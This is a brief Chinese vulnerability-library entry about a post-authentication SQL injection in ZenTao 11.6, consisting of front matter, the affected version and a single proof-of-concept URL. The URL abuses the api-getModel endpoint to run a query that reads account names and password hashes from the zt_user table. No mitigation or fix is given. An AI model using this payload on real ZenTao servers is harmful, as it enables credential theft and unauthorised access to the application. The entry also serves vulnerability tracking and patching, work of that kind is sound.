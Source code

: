 ```yaml
---
title: '禅道11.6后台SQL注入'
date: Thu, 17 Sep 2020 01:28:13 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

禅道 11.6

### 漏洞POC

Payload:

http://127.0.0.1/zentaopms/www/api-getModel-api-sql-sql=select+account,password+from+zt_user

![img](禅道11.6后台SQL注入/20200909170607989.png)

